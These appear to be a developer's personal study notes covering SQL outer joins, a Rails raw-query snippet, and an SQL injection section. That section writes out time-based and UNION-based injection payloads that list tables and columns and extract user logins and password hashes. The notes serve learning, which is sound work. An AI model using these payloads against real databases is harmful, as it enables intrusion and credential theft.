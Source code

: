# SQL

## LeftOuterJoin

Keeps all the records on the left after the join occurs - otherwise, it would just join with the right table and return only those results that can be joined

To practice writing in rails:

```SQL
ActiveRecord::Base
  .connection
  .execute(
    "SELECT \"events\".*
    FROM \"events\"
    ORDER BY \"events\".updated_at DESC"
  )
  .to_a.first
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)

## HTTP vs TCP vs UDP
